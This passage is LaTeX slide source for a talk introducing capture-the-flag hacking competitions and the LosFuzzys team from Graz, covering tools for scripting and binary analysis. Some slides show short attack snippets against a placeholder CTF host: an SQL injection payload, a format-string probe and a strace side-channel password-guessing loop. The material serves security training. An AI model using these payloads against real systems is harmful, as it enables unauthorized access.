{\usebackgroundtemplate{\includegraphics[height=\paperheight]{./images/zippy/bugs/buggybugs-1.jpg}}
\begin{frame}[t,plain]
    \titlepage
\end{frame}
}

\begin{frame}
  {\texttt{\$ who}}

  \begin{columns}
    \begin{column}{0.48\textwidth}
      {mike/\texttt{@f0rki}}
      \begin{itemize}
        \item f0rki@hack.more.systems
        \item CS/InfoSec Student
        \item CTF Player since 2010
      \end{itemize}
    \end{column}

    \begin{column}{0.48\textwidth}
      \texttt{@stefan2904}
      \begin{itemize}
        \item stefan@hack.more.systems
        \item CS/InfoSec/CI Student
        \item CTF Player since 2014
      \end{itemize}
    \end{column}
  \end{columns}

\end{frame}


%\begin{frame}{stuff we are gonna be talking about \ldots}
%    \tableofcontents
%\end{frame}


\section{Introduction to CTFs}

\begin{frame}[fragile]
  {CTF: Capture The Flag}

  \begin{itemize}
    \item Collaborative hacking competitions
    \begin{itemize}
    	\item Teams vs. Teams
    \end{itemize}
    \item The goal is to capture flags
  \end{itemize}
\end{frame}

\begin{frame}[fragile,plain]
	\begin{center}
		\Huge\verb+CTF{THIS_IS_A_FLAG}+
	\end{center}
\end{frame}


\begin{frame}
  {CTF Type: Jeopardy}

  \begin{figure}[h]
    \centering
    %
\includegraphics[width=\textwidth]{./images/dctf-challenges.png}
    
\includegraphics[height=0.8\textheight]{./images/sharifctf-challenges.jpg}
    \caption{\footnotesize{}Sharif CTF Challenge Board}
    \label{fig:jeopardyboard}
  \end{figure}
\end{frame}

\begin{frame}
  {CTF Type: Attack-Defense}

  \begin{figure}[h]
    \centering
    
\includegraphics[width=0.9\textwidth]{./images/ructf-network.png}
    \caption{\footnotesize
      RUCTFe 2015 Network Schema (source:
      \href{https://ructf.org/e/2015/network.html}{RUCTF org}) }
  \end{figure}
\end{frame}

\begin{frame}
  {CTF Type: Attack-Defense}

  \begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{./images/faustctf-scoreboard.png}
    \caption{\footnotesize{}FAUST CTF 2015 scoreboard}
    \label{fig:faustctfscoreboard}
  \end{figure}

\end{frame}


\begin{frame}
  {Why CTFs?}

  \begin{itemize}
    \item \textbf{It's fun!}
    \item Gain experience in Information Security
    \item Challenges modeled after real-world problems
      \begin{itemize}
        \item Sometimes real-world bugs modeled after CTF bugs?
      \end{itemize}
  \end{itemize}
\end{frame}

\section{LosFuzzys}

{\usebackgroundtemplate{\includegraphics[height=\paperheight]{./images/zippy/bugs/buggybugs-20.jpg}}
\begin{frame}[allowframebreaks,plain]

  {\huge
    \texttt{LosFuzzys}: A CTF Team in Graz}

  \vspace{19em}

  {\Large
  We Like Bugs!}

\end{frame}
}

\begin{frame}
  {LosFuzzys: A CTF Team in Graz}

  \begin{itemize}
    \item A group of people interested in information security
    \item Primarily CS/SW/ICE Students from TUGraz
      \begin{itemize}
        \item But we welcome anyone interested and motivated :)
        \item and maybe even you ;)
      \end{itemize}
    \item Irregular Meet-ups
  \end{itemize}
\end{frame}

\begin{frame}
	{Where to start?}

	\begin{itemize}
		\item Talk to us! :-)
		\item \url{https://hack.more.systems}
		  \\ twitter: \href{https://twitter.com/LosFuzzys}{@LosFuzzys}
	\end{itemize}

	\begin{itemize}
		\item Read writeups!
		\begin{itemize}
			\item Repo: \href{https://github.com/ctfs}{github.com/ctfs}
			\item Ours: \href{https://hack.more.systems/writeups}{hack.more.systems/writeups}
		\end{itemize}
	\end{itemize}

\end{frame}


\section{CTF Toolbox}

{\usebackgroundtemplate{\includegraphics[height=\paperheight]{./images/zippy/bugs/buggybugs-14.jpg}}
\begin{frame}[plain]

  \begin{center}
    {\Huge \hspace*{\fill} \textbf{CTF Toolbox}}

    \vspace{17em}
  \end{center}
\end{frame}
}

\begin{frame}
  {CTF Toolbox}

  \begin{itemize}
    \item Great diversity of challenges
    \item Some things turn up frequently
    \item Knowledge of technology necessary
    \item Experience helps a lot
  \end{itemize}

  \begin{itemize}
    \item Using the right tools is essential
      \begin{itemize}
        \item assuming you know how to use them \ldots
      \end{itemize}
  \end{itemize}

\end{frame}

%\begin{frame}
%  {CTF approach}

%  \Large
%  \begin{enumerate}
%    \item Analyze
%    \item Attack
%    \item Retrieve
%  \end{enumerate}
%\end{frame}

%{\usebackgroundtemplate{
\includegraphics[height=\paperheight]{./images/automatealltheexploits.jpg}}
%\begin{frame}[plain]

%  %{\Huge Automation}
%\end{frame}}

\subsection{Scripting and Automation}

\begin{frame}
  {Scripting is your best Friend}

  \begin{itemize}
    \item Be comfortable in automating things
    \item Use whatever works best
      \begin{itemize}
        \item bash, zsh etc.
        \item Python, Ruby etc.
      \end{itemize}
  \end{itemize}

  \begin{center}
    
\includegraphics[height=0.5\textheight]{./images/automatealltheexploits.jpg}
  \end{center}
\end{frame}


\begin{frame}
  {Command-Line-Fu is very helpful}

  \begin{itemize}
    \item Standard utils -- \texttt{grep, sed, awk, sort, cut, uniq,} \ldots
    \item Network stuff -- \texttt{nc, socat, dig, nmap}
    \item Query json -- \texttt{jq}
    \item HTTP -- \texttt{curl}
    \item \ldots
  \end{itemize}

  \begin{itemize}
    \item Pipe together to get your results!
  \end{itemize}
\end{frame}


%\begin{frame}
%  \todo[inline]{Some example with socat?}
%\end{frame}


\begin{frame}[fragile]
  {Bash Password Guessing}

  \begin{lstlisting}[language=bash]
for x in q w e r t y u i o p a s d f g h j k l z \
    x c v b n m Q W E R T Y U I O P A S D F G H J \
    K L Z X C V B N M 1 2 3 4 5 6 7 8 9 0 "-" "_" "?"
do
echo "= $x ="
# count sigaction syscalls
strace ./stage3.bin "Did_you_l$x$x$x$x$x$x$x$x" 2>&1 \
  | grep sigaction \
  | wc -l
done > log
# get highest count of sigactions and triggering char
cat log | grep -B 1 \
  "$(cat log | grep -v = | sort | uniq | tail -n 1)"
  \end{lstlisting}

\end{frame}

%\begin{frame}
%  \todo[inline]{add command line black-magic example}
%\end{frame}

% python requests - automated browsing

\begin{frame}[fragile]
  {Automated Browsing -- python-requests}

  \begin{lstlisting}[language=python]
import requests

URL = 'http://ctf.example.com'
s = requests.session()
r = s.post(URL + '/login',
           data={'user': 'fuzzy', 'pass': '1234'})

# GET http://ctf.example.com/vuln?x='or%201=1--x
resp = s.get(URL + '/vuln',
             params={'x': '\'or 1=1 --x'})
# session cookie automagically used here

print resp.text
# flag{some_flag_of_some_service}
  \end{lstlisting}
\end{frame}

% pwntools - implement parts of line-based network protocols

\begin{frame}[fragile]
  {Dirty Networking -- pwntools}

% TODO: send email or something
  \begin{lstlisting}[language=python]
from pwn import *

r = remote('ctf.example.com', 1337)

# line based
r.recvline()
r.sendline('HELO %s%s%s%s')
r.recvuntil('250 Hello')

data = r.recv(4)

# unpack LE uint32 from bin
i = u32(data)
log.info('received uint32 {}'.format(i))

# pack BE uint32 to bin
r.send(p32(1094795585, endian='big'))
r.recvline()
  \end{lstlisting}
\end{frame}


\subsection{Analysis}

{\usebackgroundtemplate{\includegraphics[height=\paperheight]{./images/zippy/bugs/buggybugs-23.jpg}}
\begin{frame}[plain]

  {\huge Finding \& Analyzing Vulnerabilities}

  \vspace{16em}

\end{frame}
}


\begin{frame}[fragile]
  {Analyzing Java/.NET Apps}

  \begin{itemize}
    \item Great decompilers!
      \note{
      \begin{itemize}
        \item Bytecode much easier to decompile.
      \end{itemize}}
    \item Java/Dalvik bytecode
      \begin{itemize}
        \item intellij built-in decompiler (fernflower),
          \href{https://bitbucket.org/mstrobel/procyon/}{procyon}
        \item \url{http://www.javadecompilers.com/}
      \end{itemize}
    \item Android apps/Dalvik bytecode
      \begin{itemize}
        \item \href{http://ibotpeaches.github.io/Apktool/}{apktool},
          \href{https://bitbucket.org/JesusFreke/smali/}{smali/baksmali},
          \href{https://github.com/skylot/jadx}{jadx}
        \item Xposed
      \end{itemize}
    \item .NET bytecode
      \begin{itemize}
        \item \href{http://ilspy.net/}{ILSpy}, \href{https://www.jetbrains.com/decompiler/}{Jetbrains dotPeek}
      \end{itemize}

  \end{itemize}

\end{frame}


\subsection{Dealing with Binaries}
\begin{frame}[fragile,plain]

  {\Huge A wild binary appears!}
  \vspace{1em}

  \begin{lstlisting}
$ file ./pwn
pwn: ELF 32-bit LSB executable, Intel 80386,
  version 1 (GNU/Linux), statically linked,
  for GNU/Linux 2.6.24,
  not stripped
  \end{lstlisting}

\end{frame}


\begin{frame}[fragile,plain]

  \huge
  \begin{center}
    \verb+$ objdump -d ./pwn | less+
  \end{center}
\end{frame}

{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[fragile,plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/objdump.png}
  \end{center}
\end{frame}
}


{\setbeamercolor{background canvas}{bg=red}
\begin{frame}[plain]
  \begin{center}
    \href{http://radare.org}{
\includegraphics[height=3em]{../images/r2logo.pdf}}\\
    \Huge\textbf{\textcolor{white}{%
      Keep Calm \\
      And \\
    Use \texttt{radare2} \\
    \textsc{From }\texttt{git}}}
  \end{center}

  \note{
    \begin{itemize}
      \item Hex Editor
      \item Disassembler/Assembler
      \item Debugger
      \item Code emulation
      \item Binary Diffing
      \item Scriptable
      \item \ldots
    \end{itemize}
  }
\end{frame}
}

{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/radare-disas1.png}
  \end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
